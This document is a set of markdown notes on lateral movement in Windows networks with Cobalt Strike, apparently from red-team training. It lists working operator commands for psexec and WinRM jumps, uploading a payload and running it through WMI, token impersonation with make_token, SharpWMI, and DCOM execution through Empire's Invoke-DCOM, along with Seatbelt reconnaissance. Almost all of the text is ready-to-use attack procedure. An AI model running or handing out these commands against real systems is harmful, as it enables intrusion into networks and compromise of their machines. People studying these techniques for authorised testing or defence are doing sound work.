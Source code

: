 # Lateral Movement Notes

**Jump**

The first and most convenient is to use the built-in jump command - the syntax is jump [method] [target] [listener].  Type jump to see a list of methods.  

```
jump
```

list of them 
1. psexec
2. psexec64
3. psexec_psh
4. winrm
5. winrm64

**Remote-Exec**

Built-in tool with CS
```
remote-exec
```
Options
1. psexec
2. winrm
3. wmi

Can als0 run SeatBelt remotely to check the systems before jumping to them

```
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe OSInfo -ComputerName=web
```

**Windows Remote management**

winrm or winrm64

```
jump winrm64 <domain> smb
```

**Psexec**

psexec or psexec64, or psexec_psh which doesn't put a binary but instead executes a powershell oneliner
```
jump psexec64 <domain> smb
jump psexec_psh <domain> smb
```


**WMI**

upload a payload to the target system and use WMI to execute it
```
cd \\OtherComputer\ADMIN$
upload C:\payloads\smb_exe64.exe
remote-exec wmi <OtherComputer> C:\Windows\smb_x64.exe
```
Now connect to it
```
link <OtherComputer> TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
```

**CoInitializeSecurity**

If this fails
```
make_token DOMAIN\User <pass>
remote-exec wmi <OtherComputer> C:\Windows\smb_x64.exe
```

Try executing from a different process
```
execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=<OtherComputer> command="C:\Windows\smb_x64.exe"
```

**DCOM**

Utilizing [Invoke-DCOM](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1)

```
powershell-import C:\Tools\Invoke-DCOM.ps1
powershell Invoke-DCOM -ComputerName <OtherComputer> -Method MMC20.Application -Command C:\Windows\smb_x64.exe
link <OtherComputer> TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
```
